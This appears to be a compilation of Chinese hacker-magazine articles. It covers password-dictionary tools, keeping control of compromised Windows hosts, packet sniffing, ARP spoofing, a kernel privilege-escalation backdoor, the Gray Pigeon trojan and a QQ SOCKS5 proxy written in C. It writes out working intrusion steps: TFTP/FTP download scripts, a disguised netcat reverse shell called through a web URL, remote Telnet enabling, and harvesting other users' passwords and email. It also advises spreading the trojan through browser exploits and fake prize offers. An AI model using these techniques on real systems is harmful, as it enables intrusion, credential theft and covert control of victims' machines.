对每段（位）密码的组成，字典专家都提供了4种不同的方式和一种自定义方式，具体包括：数字0~9，小写字母a-z，大写字母A-Z，分割符（也就是我们平时说的特殊字符）！#％等，还有一个“自定义”你可以在里面填上自己认为是密码的东西——这一项是用来缩小密码范围的，比如我知道别人密码的第一位是数字7，那我就可以将生成的密码字典中所有的密码第一位都自定义为7。

对一般情况来讲，如果使用者知道需要的密码是几位，每位大概在什么范围，那就可以使用密码字典来快速生成一个与之相对应的密码集合，所以，密码字典的最大特点就是可以通过已获得的信息来有针对性地生成字典。

## 4．txt2dic

生成字典内容：文本中单词组合  星级：★★★★★

对骨灰级的高手来讲，面对的密码很少情况下是生日、姓名之类的东西，高手或者说是专业人士使用的密码都是定期更换，而且没有特定的规律，他们的密码一般都是在特定的文本中按照一定的组合规律抓出来的，很多时候字典里面根本没有！这时候就会很棘手，因为时间或者是安全等问题的限制，不可能使用罗列式的暴力方法，对字典工具的要求就更严一层，txt2dic就是用来解决这个难题的，它能够将特定的文本中的字符提取出来，用不同的方法组合、替换，然后生成专门针对某一问题的密码集合，这样就能很容易地将本来由于时间、安全等因素限制的密码破解变得简单。

txt2dic只需要简单地填上原始的文本文件地址，想要得到的输出密码字典文件位置就能生成特定的密码集合，如果你了解更多的关于密码的信息，那你可以选择“过滤字串”来去掉有特定字符的密码，或者是你知道密码是几位的组合，你也可以选择相应的位数来确定密码的范围（图8）。


图8

上面是我们常用的字典工具，除此以外还有很多常用的密码字典，总的来讲是各有优劣、各有千秋，还得留给你们自己去发现，这里也就不一一列举。如果你在某个特定的时候需要密码字典的帮助，不妨使用上面的几个软件来试试，相信一定能获得很好的效果。

## 无共享主机的长期控制方法 ——上传下载、突破防火墙与后门架设

> 也许你常问，进入目标主机以后进一步该怎么做？如何突破防火墙？本文也许能给你一些启示。

文／brain

进入目标主机后我们所需要做的其实并不是搞破坏，而是想办法能够长期控制这台主机，突破防火墙的限制，为自己留下方便的后门。然也可以在SQL Remote Execute里面实现。在这样那些没有开设共享的实现主机上传下载文件的工作就可以由这个传输模式来完成。

### 一、文件的传输

以下所述方法都是在远程主机没有开启共享的条件下实现的。

- 1. 打开共享

使用IDQ、WebDAV等方法对目标进行溢出攻击之后得到system权限，使用net share查看一下共享，发现一个共享都没有打开。没有办法应该对方的硬盘就不方便上传下载文件。其实最简单的办法就是打开它的共享，如图1。


这样，我就可以映射它的磁盘，实现文件的传输了。

其实要防止这种共享打开是十分简单的，只要网上邻居的属性里面没有添加文件和打印共享就可以实现了。

- 2. 使用TFTP工具进行文件传输

使用TFTP(Trivial File Transfer Protocol)工具来实现文件的传送是一种基于UDP连接的文件传输，一般是使用Windows自带的tftp.exe和一个TFTP服务端软件构成一个完整的传输结构。一般在溢出的Shell、Telnet的Shell中使用，当然也可以在SQL Remote Execute里面实现。

首先，运行本地的TFTP Server软件并保证始终开启直至传输全部完成，然后在Shell中运行下面的命令：

```
C:\winnt\system32>tftp -i 192.168.0.1 get abc.exe  上传文件到Shell目标

C:\winnt\system32>tftp -i 192.168.0.1 put abc.exe  下载文件到本地主机
```

这里你可以在最后面写上你要传送到的路径。这里要提到的是，如果使用一个Private IP address，你将不能实现与外部网络的文件传送。因为你的代理网关在进行数据封装的时候会将自己的IP地址加入到你的数据报中，代替你的内部网络地址。所以，在外部网络进行MAC寻址是找不到你这台TFTP服务器的。想避免这样的传输最直接的办法就是将tftp.exe文件删除，另外你可以使用工具修改列表中的tftp端口号（改为0）。

- 3. 使用本地FTP服务进行文件传输

如果你得到一个Shell，是不能直接远程操作FTP命令行的，所以一般来讲我们都要写一个脚本来实现从FTP主机上下载文件或者上传文件。使用echo命令来写这个脚本并执行它：

```
C:\winnt\system32>echo open 192.168.0.1 > ftp.txt
C:\winnt\system32>echo user:pass@192.168.0.1 >>ftp.txt
C:\winnt\system32>echo get abc.exe >> ftp.txt
C:\winnt\system32>echo bye >> ftp.txt
C:\winnt\system32>ftp -s: ftp.txt
```

- 4. 使用TFTP打开目标FTP服务进行文件传输

利用TFTP方法上传一个FTP的后门（例如 xftpd.exe，好发Hackerhell推荐），在命令行下面执行它，我们就可以得到一个开放FTP的远程主机。利用浏览器或者是其他工具就可以轻松实现文件的传输。

### 二、突破防火墙

防火墙从外面很难突破，就好像一座森严的壁垒，只有使用一些渗透的手段或者其他的一些方式从内部突破，才能真正达到突破防火墙的目的。

有很多渗透攻击的例子，我不能一一列举，事实上我也曾经成功地测试过一些站点，从80端口的渗透攻击是比较常见的，有的是使用溢出攻击，有的是利用页面程序的缺陷进行攻击。

突破防火墙是从内部开始的，但是也要先找到一些可以渗透的端口才可以。我前一段写了一篇文章是记录一次渗透攻击的。我是利用ASP页面身份验证里的一个漏洞成功拿到了一个页面管理的权限，实现了一些上传的功能，并从80端口对该主机进行渗透并获得最高权限的。

TFTP方法事实上就是一种从内部突破防火墙的方法，由于69端口是系统默认可以使用的TFTP服务端口，所以在Shell中提交一个TFTP传输的申请，防火墙是不会拒绝的。这样，我们就可以将一些有价值的东西传送到我们希望它存在的地方。

从80端口突破防火墙是比较常见且比较容易实现的，因为80的访问一般不会被禁止。我曾经做过两次不同的方式但原理相同的突破。使用IDQ溢出得到Shell将ASP木马上传到WWW服务的某个目录下，然后将IUSR_Computername这一IIS访问进程账号加为管理员组成员。随后我将它的IIS服务重新启动：

```
C:\winnt\system32>iisreset
```

重新回到浏览器中，打开ASP木马查看net session可以，证明刚才我所做的一切都有效果了，这样我就在80端口上建立了一个很高权限（Administrators）的Shell，实现了对防火墙的突破。

另外一次是最近的事情，我使用WebDAV对某一主机进行溢出之后，得到system权限，将IIS访问进程账号加为管理员组，上传nc.exe到scripts目录下面并将名称改为logo.jpg。由于我没有能够重新启动IIS服务，所以只有等待……第二天我看了看，IIS已经重新启动，而nc也还在，其时后门就已经架设完成了。在本地命令行输入如下：

```
E:\>nc.exe -l -p 888 -vv
```

等待一个连接。在浏览器里面输入如下：

http://192.168.0.1/scripts/logo.jpg?-e+c:\winnt\system32\cmd.exe+192.168.0.3+888

```
```

注：192.168.0.3是我的IP地址。

连接成功，我得到的又是admin的权限，看来那位管理员是重新启动了主机……

防范ASP木马的文章很多，我就不再介绍。对于脚本执行权限的问题，我想只要你会配置IIS就应该不成问题吧！

上面只是针对80端口渗透突破防火墙的一些思路，事实上还有很多可以实现的突破，例如小叮当那个动画里面利用80端口和PCAnywhere结合进行的渗透就是非常好的例子。

### 三、后门的架设

为了获得远程主机更长时间的控制权，我们需要放置一些后门程序，前面已经有所涉及相信大家也多少有所了解了。但是当没有开启人和共享的时候你要如何放置你的后门程序呢？

大家可能认为，Windows很多服务是基于IPC$的，所以只要关闭该共享，即使得到admin的权限也不会有何作为的，毕竟“没有共享就不能放置后门”。

但是事实并非如此，现在有很多机遇WMI服务的宿主脚本程序，既简单地解决了这样的问题，当然也产生了不少安全的隐患。现在据我所知，有两个vbe的脚本分别可以实现开启远程主机Telnet和Terminal Services的功能。我这里只介绍一下开启Telnet服务的宿主脚本的使用：

这里使用的RTCS.vbe是用来远程开启/关闭目标Telnet服务的Windows脚本。

特点：不依赖于ipc$开放与否。

原理：直接访问目标的Windows管理规范服务（WMI），该服务为系统重要服务，默认启动。

支持平台：Windows 2000 Professional，Windows 2000 server，Windows XP

使用方法：

在命令行方式下使用windows自带的脚本宿主程序cscript.exe调用脚本，例如：

`c:\>cscript RTCS.vbe <目标IP> <用户名> <密码> <NTLM验证方式> <telnet服务端口>`

- 其中 NTLM 值可取0，1，2：
  - 0：不使用 NTLM 身份验证；
  - 1：先尝试 NTLM 身份验证。如果失败，再使用用户名和密码；
  - 2：只使用 NTLM 身份验证。
- 空密码用两个双引号`""`表示。

脚本自动检查目标Telnet服务情况，如果未启动则启动它，相反就关闭。

同一个命令执行两遍，就开/关一次服务。

关闭服务时也必须输入共5个参数，这样可以根据需要还原服务设置为默认值（NTLM=2，端口23）。

如果Telnet服务被禁用，将自动更改为“手动”。

```
C:\>cscript rtcs.vbe 202.***.***.*** tsinternetuser ************ 0 23
Microsoft (R) Windows Script Host Version 5.6
版权所有(C) Microsoft Corporation 1996–2001。保留所有权利。

Connecting 202.***.***.***...
OK!
Setting NTLM=0
OK!
Setting port=23...
OK!
Querying state of telnet server
Changing state...
OK!
Target telnet server has been START Successfully!
Now, you can try `telnet 202.***.***.*** 23` to get a shell

C:\>telnet 202.***.***.***
Microsoft (R) Windows (TM) Version 5.00 (Build 2195)
Welcome to Microsoft Telnet Service
Telnet Server Build 5.00.99201.1
login: tsinternetuser
password: ********

欢迎使用 Microsoft Telnet 服务器。

C:\>
```

成功！

还有一个脚本就是ROTS.vbe，是用来开启Terminal services的，我一直没有成功过，所以也不好向大家介绍。

开设后门需要开动脑筋，结合所有自己的技能来实现。比如使用先前提到的上传下载的方式都是可以进行综合利用的，这就要看自己的了……比如突破防火墙里面提到的，我认为也应该算是架设后门的好办法。

上面的3个方面我认为是不可分的，我想分开它们也是很困难的。

```
RTCS v1.08
Remote Telnet Configure Script, by zzzevazzz
Welcome to visite www.isgrey.com
Usage:
`cscript c:\rtcs.vbe targetip username password NTLMAutho telnetport`
It will auto change state of target telnet server.
```

### 四、后记

其实，得到了Shell后还有许多事情要做，要看看这个Shell可以做什么，入侵者得到Shell之后一定不要搞破。

## 拨号也来抓眼球

文／海的归宿

# ——Commview 的使用

网络上虽然有很多的sniffer工具，但是大多很少提供对dial-up adapter的支持，这给我们在实际操作中带来了不小的麻烦。那么有没有支持dial-up adapter的sniffer的工具呢？如果你细心的话，还是能找到不少的，而下面要介绍的就是一款支持dial-up adapter 的sniffer工具——commview！接下来就一起来看看它的使用吧！

- 1. telnet密码截取

对telnet的捕捉并不是很难，因为telnet采用TCP协议，以及PSH ACK，所以很容易就可以抓到telnet登录时的密文用户名和密码！在使用Commview时，设置为捕捉PSH. ACK（图1），协议设置为TCP（图2），设置port为23（图3），然后就是等待截取结果！


截取的结果如图4所示，选择第一个选取的数据包，右键，选Reconstruct TCP Session，就可看见密码和用户名。由于两个是连在一起的，所以选择Display type-->Hex，结果如图5所示。


- 2. FTP/POP3密码截取

对于FTP来说，设置也很简单：设置port为21，设置flags为PSH ACK，即可截取，其结果如图6所示。

至于POP3，只要把port设置成110，就可以了！


- 3.HTTP密码截取

网络上大部分网站都是用端口80进行访问的，所以把port设置成80。为了只抓取密码文件，最好在text栏里写上pass或password，其结果如图8所示。

图7中的username=chi_rick&password=ihateyou，就是在163.com登录时截取的用户名和密码。


- 4.SMTP邮件内容截取

SMTP使用25端口，所以port设置成25。关于SMTP，我没办法截取密码，不知别人是如何完成的。

图8是截取到的邮件，我们自己先写个内容随意的邮件，然后另存为一个文件！用文本打开文件，把截取的文本内容替换成我们刚才写的内容，再打开就可以看到别人的邮件内容了（图9）！


commview还有一个特点，即结合Remote agent还可以远程监控sniffer，Remote agent会把截取数据远程发回主机。Remote agent 1.1的下载地址是http://www.all-nettools.com/cvra1.zip，可以使用Dameware把remote agent安装在别人机子上。只要对方安装了remote agent，我们就可以打开commview的Remote Monitoring Mode，加入对方IP直接连接，所需要的密码就是安装remote agent时的密码。

## ArpSniffer
### ARP 欺骗
文／darkshark

## ARP欺骗原理
ARP是“Address Resolution Protocol”（地址解析协议）的缩写。在以太网中，一个主机要和另一个主机进行直接通信，必须要知道目标主机的MAC地址，ARP协议的基本功能就是通过目标设备的IP地址查询目标设备的MAC地址。在每个安装有TCP/IP协议的系统里都有一个ARP缓存表，表里的IP地址与MAC地址是一一对应的。在命令提示符下，键入“arp -a”就可以查看ARP缓存表中的内容了（图1）。


图1 ARP缓存表

这里第一列显示的是IP地址10.0.0.1，第二列显示的是和IP地址对应的MAC地址00-08-74-1c-f3-56，第三列说明该IP和MAC的对应关系类型是动态的，而不是绑定的。

当发送数据时，主机会在自己的ARP缓存表中寻找是否有目标IP地址。如果找到了，也就知道了目标MAC地址，直接把目标MAC地址写入帧里面发送就可以了。如果没找到，该主机就发送一个ARP广播包，向同一网段内的所有主机发出这样的询问，如“我是主机10.0.0.2，我的MAC是xxxxxxxxxxxx，IP为10.0.0.1的主机请告之你的MAC”。当然，最终只有IP为10.0.0.1的主机回应这个广播，它会应答“我是10.0.0.1，我的MAC为xxxxxxxxxx”，这样主机就知道了目标的MAC地址，然后将地址写入帧里面发送并刷新自己的ARP缓存。

下面我们看看如何进行ARP欺骗。假设在局域网中10.0.0.108和10.0.0.8都是通过网关10.0.0.1上网的，攻击者的系统为10.0.0.108，他希望监听到10.0.0.8的通信。这时，他可以采用以下方法达到目的：

- 10.0.0.108假冒10.0.0.1向10.0.0.8发送ARP应答数据包，告诉10.0.0.8，网关10.0.0.1的MAC地址是10.0.0.108的MAC地址，10.0.0.8收到该包后便会更新自己的ARP缓存表。
- 10.0.0.108再假冒10.0.0.8向10.0.0.1发送ARP应答数据包，告诉网关10.0.0.1，10.0.0.8的MAC地址是10.0.0.108的MAC地址，这样10.0.0.1也会更新自己的ARP缓存表。

这样10.0.0.1和10.0.0.8之间的数据包，就都会先发给10.0.0.108，即攻击者的机器。但是这么做会有一个问题，10.0.0.8会发现自己不能上网了，这是因为原来发给网关10.0.0.1的数据包都发给10.0.0.108了。这个问题也可以解决，10.0.0.108只需启动IP routing就可以解决这个问题了，也就是把从10.0.0.1收到的包转发给10.0.0.8，再把从10.0.0.8收到的包发给10.0.0.1，这样10.0.0.8就能正常上网了。

## 用ArpSniffer实现ARP欺骗
ArpSniffer是小榕写的基于交换环境的Sniffer工具，它可以实现ARP欺骗（使用前需要安装WINPCAP 2.1驱动），图2是其运行界面。


其中IP1为网关的IP，IP2为我们要监听的主机IP；Sniffer TCP Port为我们要监听的端口，如HTTP的80、SMB的139、QQ的4000等，如果为*，则监听所有端口；LogFile是一个文件，它用来保存Sniffer到的内容，该文件由我们自己指定；NetAdp为网卡类型，这里是0；/RESET开关用来恢复ARP欺骗。

下面用一个实例来讲解如何使用ArpSniffer这款工具。

环境：攻击者的IP为10.0.0.108，目标机器的IP为10.0.0.8，网关的IP为10.0.0.1。

现在我们想监听目标机器的80端口，可以在命令提示符下键入下面的命令：

```bash
arpsniffer 10.0.0.1 10.0.0.8 80 arplog.txt 0
```

运行情况如图3所示：


我们可以看到ArpSniffer首先取得了三台电脑的MAC地址，然后便开始了“罪恶的”ARP欺骗。它经过如下两个步骤：

- `Spoof 10.0.0.8: Mac of 10.0.0.1 ===> Mac of 10.0.0.108`
  用来欺骗10.0.0.8，将其ARP缓存表中的网关10.0.0.1的MAC地址换为攻击者10.0.0.108的MAC地址。
- `Spoof 10.0.0.1: Mac of 10.0.0.8 ===> Mac of 10.0.0.108`
  欺骗10.0.0.1，将其ARP缓存表中的目标机器10.0.0.8的MAC地址换为攻击者10.0.0.108的MAC地址。

然后就开始了监听，我们可以看到目标机器10.0.0.8正在访问地址为218.17.*.*的网页。图4为监听的结果。


我们可发现目标机器正在登陆某个论坛，用户名和加密后的密码都清晰可见，对于动网论坛，我们可以直接使用得到的cookie自己构造冒牌cookie以他的身份登陆了。

> **提示：** 如果对方是在访问LB论坛，这时可以直接获取其用户名和明文密码哦！

#### 防范方法
从上面的分析我们可以看出，ARP欺骗在局域网中是一种比较隐蔽的攻击，可以对网络造成严重损害，但是我们还是可以进行防范的。

- 建立静态ARP缓存表
  ARP欺骗主要是更改目标主机和网关的ARP缓存表，我们只要建立静态的ARP缓存表，就可以防止ARP欺骗了。
- 禁止某个网络接口做ARP解析
  可以禁止网络接口对ARP应答包做出响应，从而保证ARP缓存表不被更改。
- 使用ARP服务器。
  通过该服务器查找自己的ARP转换表来响应其他机器的ARP广播，但是必须保证该服务器的安全。
- 定期检查自己的ARP缓存表，看看有没有出现重复的MAC地址。
  如上面的例子，如果目标机器10.0.0.8检查自己的ARP缓存表就会发现问题（图5）。


原来10.0.0.1和10.0.0.108的MAC地址一样，这难道还不能说明你被骗了吗？呵呵，快去拿家伙吧，看谁这么大胆？！当然，这时你也可以用命令：`arp -d` 清除缓存中的10.0.0.1的那条记录。

看完本文，你是否已经闻到了不安全的气息了呢？赶快检查一下你的ARP吧，或者你正在被人欺骗呢！

## 基于T-SysCmd-1.0的权限提升使用实例
文／Brief

最近在学习Windows Kernel方面的一些知识，随手写了一个基于Windows FIDT的内核级后门程序T-SysCmd-1.0发布到主页上。恰巧编辑Heavyd看到，希望能发一篇介绍其使用的稿子，下面我就此程序的功能及使用做一个简要的介绍。

广泛存在于*nix系统下的RootKit是一个技术含量比较高的研究方向，它的目的在于维护入侵者的当前成果，以备将来使用。平时大家提得比较多的Exploit则是侧重于获得Root/Admin权限，而RootKit则是保护我们获得的权限不被管理员发现。漏洞补丁一旦出现，Exploit的作用就可想而知，不过别急，因为我们还有RootKit。本文相关的权限提升是建立在我们已经获得了Admin权限之后（通过某些漏洞），在以较低权限使用系统过程中的权限提升，或我们的系统权限级别的后门被发现／清除之后，仍然可以恢复我们的最高权限。

T-SysCmd-1.0实现权限提升的原理是，我们以任意用户开启一个Command（Cmd.exe）后就存在一个与此相关的进程，每个进程都有相关的访问令牌，在Windows系统中进程令牌决定了进程自身的权限（UNIX平台下相应的则是UID）。在Command里执行我们的程序时，可以通过内核指令获取System进程的访问令牌值并赋给我们的Command进程，这样我们的Command也就具有和System进程相等的SYSTEM权限（SYSTEM权限在Admin之上）。

好了，我们通过具体的使用实例来体会上面的原理。首先，我们来看看它的使用说明，注意，只有Admin权限的用户才可以安装／卸载相关驱动程序，且其适应平台为Windows 2000/XP，Intel x86 Family（图1）。


图1

我们假设已经将相关驱动安装成功后，现在切换到Guest用户下。如果现在我们想添加用户，或许你会说这是不可能的。那么看看，我们是如何通过T-SysCmd-1.0的权限提升使我们能够获取一个SYSTEM权限的Command来执行我们期望的命令吧（图2）。


图2

在图2中，我们可以看到在默认的Guest权限下我们执行添加用户的访问被拒绝了，哎！不过不要紧，在我们使用T-SysCmd-1.0的-Upgrade选项后，当我们再次添加一个新用户（FZ5FZ）时，命令成功了，当然不能忘了将FZ5FZ提升为管理员组的成员哟。

至此，我们已经看到了如何将一个Guest下的Command提升为SYSTEM权限，这样就可以执行比较高级的命令了。平时常听到网友说不能看到注册表中SAM键下的信息，默认情况下的Admin也是没有权限看，更别说是Guest，现在让你在Guest下也能看到SAM下的详细信息，你只须在我们已经提升权限的Command里执行Regedit就可以了（图3）。

最后需要提醒一下，T-SysCmd-1.0存在的前提是获得了管理员权限，这样才能安装我们的后门。之后，可以通过本地的Command或远程的交互式登录（如NC）来提升自己的权限。由于我们是通过书写驱动程序来实现了内核级的后门，可能会给你的系统带来一定的不稳定性，谨慎使用哦！


### 编后
入侵过程中的新思路完美地体现在了一个小软件中：可以让你在Guest权限下神不知鬼不觉地做些越轨的事情，功能真的是很强大啊！从此不用再为了提升权限而抓破头皮了！不过也别得意得太早哦，要看清楚使用条件——Intel x86 Family，不要到时候提升权限不成功而闷火啊！

国内远程控制类型软件虽多，但是容易上手的并不多，由于语言的限制，也很少有人使用国外的同类软件，这也就有了作者开发灰鸽子的念头！作者的目标也就是想有一天做出中国最强大的远程控制软件！灰鸽子以前版本还是不太成熟，很多人把它当黑软用，但是开发的真正用意在于正规远程控制上面！所以，作者2003版除去了一些不必要的功能！更重要的是，作者希望以自己的实际行动证明，中国的远程控制软件并不比外国的差：既然如此，我们就一起看看吧！

## 灰鸽子2003 越限异能
文／kingsworder

灰鸽子是一款由葛军开发的木马程序，该软件的开发一直是以作为中国最强大的木马为目标，所以无论在功能还是美观上都是数一数二的。但自从辐射版到现在已经很久没有消息了，直到某天上网闲逛，无意中发现灰鸽子出了个新版本，于是下回来用了一下，还真是变得更加强大了。难怪有人说它是自冰河后的中国第一木马。废话少说，让我们先来领略一下它有何改变。

首先，类似XP的操作界面比以前美感更好了（图1），仍然保持了换肤功能。顶部的导航条改动不大，软件上都提供有快捷图标了。旧版功能就不多说了，但是设置下的系统设置，对我们来说作用还是很大的，如远程端口设置，要不自己辛苦养的马还要被别人分享。

不知道是我看不见或者是只能在完全版中才会有吧。

“搜索内容”则仍然保持了原有的追捕的功效、IP转地理位置、域名转IP等等。当你扫到中马的IP时，利用这个功能就能够知道到贼对方在哪里，不错的功能。

下面的文件管理器，远程控制、注册表模拟等等，都是灰鸽子的关键部分，毕竟这些东西都是吸取了国内或国外优秀木马的特点的。关键部分变化不大，只是在远程命令控制多了一个插件控制。该功能的使用，关键在于生成服务端的时候，所嵌入的程序。至于镶什么当然由你决定。而文件管理器下则增加了符合条件主机项目，该功能会根据你的个人设定的专用机器，如不同的端口、密码等等。


图1

配置服务程序，这个可是最重要的，生成服务端的好坏关系到自己控制机器的多少，所以当然要谨慎对待。新的灰鸽子，在服务端生成上多加了一些东西，如绑定插件。绑定插件允许我们在服务端中加入任何文件，这对于盗取对方游戏、QQ账号之类起到了不小的作用。连接类型仍然保持了自动上线和主动连接两项。自动上线就不再需要知道对方的IP了，但是间时需要转向域名和DNS域名之类的。要是搞不懂这些东西的话，你就用主动连接来生成就可以了。而在安装信息处终于允许自己更改生成服务端的图标了，这样对于软件在欺骗性上又上了一个台阶。同时取消了2000和XP的注册服务项目，可能是2000和XP的系统在安全上比较好些或者是什么其他原因，反正作者没说。

快捷栏上的东西变动不大，惟一值得庆幸的一点是，搜索主机中的IPC弱口令探测这个鸡肋给取消了。在搜索中灰鸽子的速度上改进没有多大，比起其他专业的端口扫描工具来说确实略逊一筹，但是比起辐射版还是强了不少。快捷栏下的当前连接，“以前的即使密码错误也能控制服务端软件设计的bug”在新的版本上终于得到修复了，这样在保护自己的肉鸡上确实有了保障。但是在2003BEAT2版本中找不到生成端连接密码的修改项，说了这么多，还没有说到重要的地方，有种在骗人的感觉，好了，现在开始讲些自己的使用心得吧！首先用灰鸽子自己本身的搜索功能还真是难找到一台好的机器，搜索速度太慢了。这时候我们用SUPERSCAN这类专业扫描软件，填好默认的端口，能够大大提高我们获得的机器数量。还有就是关键在于如何骗取其他人运行自己的服务端，这个各人有各人的方法，最快的就是先把自己的服务端加载在网页中利用IE的自动下载运行漏洞，反正很多人不会升级计算机系统漏洞。冲到各大聊天室说那里有免费的QQ赠送，或者其他一些利益性的东西，贪小便宜的人肯定会上当的。

怎么样，新版的灰鸽子是不是让你心动了？赶快下载一个试试吧，也许你会有更多意想不到的发现呢？

相信很多读者都为找一个好的 Socket 代理而头痛。的确，好的代理很少，偶尔找到好的，又是千军万马过桥（慢的吐血）。最省事的办法自然是使用代理软件来搜索了，不过，你知道代理软件究竟是怎么回事，它的构造是什么样的，它怎样完成和客户端的握手，怎样完成数据的转发吗？是不是也曾经想过要自己编写一个专用的代理软件呢？如果是这样的话，你有福了，因为本文就从代理软件的组成开始，以代码的形式，深入浅出地进行了分析。看完本文，或许你就可以写一个私人代理，用在 QQ 上和 MM（GG）聊天啦。


## 编写自己的 QQ代理服务器
文 / Zvrop

Socket 是基于 TCP 的，而 QQ 是使用 UDP 协议的软件，但它依然是用了 TCP 作为连接，完成常规握手，包括协商协议、验证用户、确认数据转发的端口和 IP 后，才建立 UDP 和 QQ 进行通讯和数据的转发。转发期间负责接收来自 QQ 客户端的信息和来自 QQ 服务器端的信息，相应的修改 UDP 数据头（为了数据能发送到代理服务器），将数据转发。下面，我们就一步步的从原理到实现来系统的为大家介绍一下。

### 建立TCP连接
首先，我们先完成建立 TCP 握手的准备。开始建立连接的时候，使用下面的常规建立方法：

```c
WSADATA WSADATA;
if( WSAStartup(MAKEWORD(2,2), &WSAData))
    return; // 初始化 WINDOWS SOCKET DLL
struct sockaddr_in servaddr, clientaddr; // 建立结构
int clientlen, listenfd; // 标识符
int connfd;
memset(&servaddr, 0, sizeof(servaddr)); // 清空结构
servaddr.sin_family = AF_INET;
servaddr.sin_port = htons(2527); // 这个就是 QQ 客户端连接代理的端口，可任意
servaddr.sin_addr.S_un.S_addr = htonl(...
```

```c
(INADDR_ANY); // 接收任何地址
listenfd = socket(AF_INET, SOCK_STREAM, 0); // 自动选择建立套接字
if(listenfd < 0)
    return; // 建立错误，错误排查
if((bind(listenfd, (struct sockaddr *)&servaddr, sizeof(servaddr)) < 0)
    return; // 绑定错误，这里这个 bind 可用来测试端口时候被使用
if((listen(listenfd, 5) < 0) // 监听最大 5 个队列
    return; // 监听出错，错误排查
clientlen = sizeof(clientaddr); // 结构长度
while(1) // 死循环不停接受
{
    connfd = accept(listenfd, (struct sockaddr *)&clientaddr, &clientlen); // 连接到来
    if(connfd < 0)
        return; // 是错误连接，错误排查
    if(begin(connfd))
        return; // 开始验证身份，这是一个函数，下面再说，这里错误排查
}
```

大家在阅读代码的时候，仔细的看一下注释，应该很快就会明白的，这里就不多说了，下面重点介绍一下握手（协商）的具体内容。

### 协商原理
以 QQ 为例，握手有 2 个来回（两次），基于认证方法的多样性，本文就其中需要密码和不需密码的情况进行说明。

## 1．客户端先发送版本确认报文

确认报文格式如下：

1字节版本号｜1字节认证队列数量｜认证类型队列

典型的例子如：(0x05)(0x01)(0x00)。它表示SOCKET5协议的，1种认证方式，无密码验证类型。

如最后的0x00改成0x02的话，那么就是需要身份验证的。其他的方式，文后的附录1中有详细介绍。

## 2．客户端发送版本确认报文以后，代理应该发回确认信息

确认消息简单描述如下：

版本信息｜确认信息

如对于无身份验证的，则这样表示：(0x05)(0x00)，对于有验证的，便是这种形式：(0x05)(0x02)(0x00)(0x02)；如发回其它的信息，都是表示失败。

以上就是一个来回了，接下来就是另外一个来回。

## 3．第二个回合

- a）对于无身份验证的，接下来的报文就是这个结构：

版本号｜协议类型｜地址类型｜IP地址｜端口

典型的例子如：(0x05)(0x03)(0x00)(0x10)｜(0xxx)(0xxx)(0xxx)(0xxx)｜(0xxx)(0xxx)。

其中第4个是IP类型，01表示IPV4，04表示IPV6，紧接的4个就是IP地址了，最后两个就是端口（用“｜”隔开了，方便查看）。

- b）对于有身份验证的，报文就稍微麻烦一些，仔细看看：

0x01｜1字节用户名长度｜用户名｜1字节密码长度｜密码｜版本号｜协议类型｜地址类型｜IP地址｜端口

可以看到，密码后面紧接的就是上面无验证的报文。这个报文只是前面多了用户名和密码及其长度和一个0x01罢了，其他的和上面无身份验证的一样。

- c）回复报文

下面就是身份验证或者无验证的回复了，也就是最后一个报文，由代理发回客户端它所使用的端口和IP，格式如下：

版本｜应答代码｜保留｜地址类型｜端口

其中应答代码0x00表示成功，其他的应答代码见之后附录2。还要说明的是，这里的地址类型和端口是指代理的端口和IP，其他的上面均有解释。

### 协商的实现

以下是begin函数里面的代码，承接上面的：

```c
begin(int msock)
{
char buf[1000]={"0"}; // 接受缓冲区
int n = recv(msock, buf, 1000, 0); // 接受握手信息
if(n<=0)
    return false;
bool havetest=false; // 有无身份验证
if(buf[0]==0x05 && buf[1]==0x01 && buf[2]==0x00) // 不需要身份验证的
{
    buf[0] = 0x05; buf[1] = 0x00; // 写方法信息
    havetest=false; // 设置标志
    send(msock, buf, 2, 0); // 发送方法信息
}
else if(buf[0]==0x05 && buf[1]==0x01 && buf[2]==0x02) // 需要身份验证的
{
    buf[0] = 0x05; buf[1] = 0x02; buf[1] = 0x00; buf[1] = 0x02;
    havetest=true;
    send(msock, buf, 4, 0);
}
else
    return false; // 其他的就返回出错
n = recv(connfd, buf, 50000, 0); // 接受第二次报文
short UDPport=0; // 用来储存QQ客户端端口
long myip = inet_addr("127.0.0.1"); // 本机IP，读者自行获得
short myport=htons(9999); // 本机端口
// 注意：以上本机信息经过字节转换处理
```

```c
if(havetest) // 需要身份验证的
{
    int lon1=int(buf[1]), lon2=int(buf[1+lon1+1]); // 信息长度计算
    if((strncmp(&buf[2], "zvrop", lon1))!=0) // 验证用户
        return false; // 验证出错，这里可发回错误信息
    if((strncmp(&buf[1+lon1+1+1], "zvrop", lon2))!=0) // 验证密码
        return false; // 验证出错

    // 以下计算端口位置
    int leg=3+lon1+lon2;
    int seg=4;
    if( buf[leg+3] == 0x3 )
        seg = buf[leg+4]+1;
    memcpy(&UDPport, &buf[leg+4+seg], 2); // 获得端口
    buf[0] = 0x5; buf[1] = 0x0; buf[2] = 0x0; buf[3] = 0x1; // 填充报文
    memcpy(&buf[4], &myip, 4); // 填充本机IP
    memcpy(&buf[8], &myport, 2); // 填充本机端口
    send(connfd, buf, 10, 0); // 发生报文
}
else
{
    int seg=4;
    if( buf[3] == 0x3 )
        seg = buf[4]+1;
    memcpy(&UDPport, &buf[4+seg], 2);
    UDPport = ntohs(UDPport);
    buf[0] = 0x5; buf[1] = 0x0; buf[2] = 0x0; buf[3] = 0x1;
    memcpy(&buf[4], &myip, 4);
    memcpy(&buf[8], &myport, 2);
    send(connfd, buf, 10, 0);
}
else
    return false; // 其他的就返回出错
```

这个函数还没有结束，以上这些就是 QQ 中有验证和没有验证的具体实现代码，当然，一个 Socket 代理没有这么简单，但这些作为 QQ 转发信息来说，足够了。完成了验证，就可以进行转发数据了，同样，我们先来了解一下它的原理。

### 数据转发的原理

数据转发的原理，简单来说也很简单。首先，假设先接受 QQ 客户端 UDP 数据报，并判断数据是发往 QQ 服务器的，则相应的修改报文源地址（修改为代理地址），然后将数据报发往 QQ 服务器，这样，返回的数据报就会被代理接收，然后再修改源地址（也是改成代理的地址），随后发送给 QQ 客户端，如此重复，就完成了简单的数据转发，OK，下面来看具体的实现。

### 数据转发的实现

首先需要建立的是 UDP 连接。下面的代码是接上面 begin 函数里面：

```c
struct sockaddr_in servaddr; // 结构
int listenfd=0; // 标识符
memset(&servaddr, 0, sizeof(servaddr)); // 结构清零
servaddr.sin_family = AF_INET;
servaddr.sin_port = htons(9999); // 监听本机端口
servaddr.sin_addr.s_addr = htonl(INADDR_ANY); // 任何地址
listenfd = socket(AF_INET, SOCK_DGRAM, 0); // 建立连接字
if(listenfd < 0)
{ closesocket(listenfd); return; } // 建立出错，排查
